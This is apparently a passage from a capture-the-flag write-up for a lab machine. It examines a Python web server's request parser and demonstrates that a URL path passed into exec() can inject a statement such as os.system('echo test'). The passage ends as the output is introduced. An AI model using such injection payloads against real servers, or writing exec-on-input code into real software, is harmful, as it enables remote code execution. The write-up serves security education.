 The `Request` class converts data into the object in `__init__`:

    
    
    class Request:
        def __init__(self, request):
            self.good = True
            try:
                request = self.parseRequest(request)
                self.method = request["method"]
                self.doc = request["doc"]
                self.vers = request["vers"]
                self.header = request["header"]
                self.body = request["body"]
            except:
                self.good = False
    
        def parseRequest(self, request):
            req = request.strip("\r").split("\n")
            method,doc,vers = req[0].split(" ")
            header = req[1:-3]
            body = req[-1]
            headerDict = {}
            for param in header:
                pos = param.find(": ")
                key, val = param[:pos], param[pos+2:]
                headerDict.update({key: val})
            return {"method": method, "doc": doc, "vers": vers, "header": headerDict, "body": body}
    

It seems as long as the data has a normal format with a url, version, headers,
and body (can be empty), it will return `self.good = True`. Further, the `doc`
is just what’s in the url string. I should be able to control that.

### Injection

#### In Terminal

I’ll start with local testing that resembles what’s going on on Obscurity to
see what I need to send as a payload to get execution.

    
    
    root@kali# python3
    Python 3.7.5 (default, Oct 27 2019, 15:43:29) 
    [GCC 9.2.1 20191022] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> import os
    >>> info = "output = 'Document: {}'"
    >>> path = "/index.html"
    >>> exec(info.format(path))
    >>> output
    'Document: /index.html'
    

I can see my input is added to the `info` string, and then that string is
executed. The intended behavior is to save a string with the file name in the
variable `output`. But what if I use the input to inject commands. If I
request `/index.html'; os.system('echo test');'`, then `test` is printed:
